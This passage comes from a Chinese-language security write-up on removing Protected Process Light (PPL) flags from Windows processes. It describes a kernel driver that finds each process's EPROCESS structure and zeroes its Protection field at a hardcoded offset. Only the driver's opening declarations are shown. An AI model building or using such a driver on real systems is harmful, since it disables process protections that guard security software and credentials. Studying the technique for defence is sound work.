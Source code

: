 <img src="images/usermode-attack-process-without-ppl.png" width="600">
</br>[9.用户模式下调试去除PPL标识的进程]
</div>

### 0x04 工具化
根据本地内核调试去除 PPL 标识的思路，我们可以编写驱动程序如下，使用 `ZwQuerySystemInformation()` 遍历进程，使用 `PsLookupProcessByProcessId()` 获取进程的 `EPROCESS`，随后按 `Protection` 的偏移将其内存值覆写为 `0x00`：
```
#include <ntifs.h>
#include <wdf.h>

#define EPROCESS_PROTECTION_OFFSET 0x87A        // windows10 professional 22H2

DRIVER_INITIALIZE DriverEntry;

typedef enum _SYSTEM_INFORMATION_CLASS {
    SystemProcessInformation = 5,
    // ...
} SYSTEM_INFORMATION_CLASS;

typedef struct _SYSTEM_PROCESS_INFORMATION {
    ULONG NextEntryOffset;
    ULONG NumberOfThreads;
    BYTE Reserved1[48];
    PVOID Reserved2[3];
    HANDLE UniqueProcessId;
    PVOID Reserved3;
    ULONG HandleCount;
    BYTE Reserved4[4];
    PVOID Reserved5[11];
    SIZE_T PeakPagefileUsage;
    SIZE_T PrivatePageCount;
    LARGE_INTEGER Reserved6[6];
} SYSTEM_PROCESS_INFORMATION, *PSYSTEM_PROCESS_INFORMATION;

NTSTATUS NTAPI ZwQuerySystemInformation(
    _In_      SYSTEM_INFORMATION_CLASS SystemInformationClass,
    _Inout_   PVOID                    SystemInformation,
    _In_      ULONG                    SystemInformationLength,
    _Out_opt_ PULONG                   ReturnLength
);

```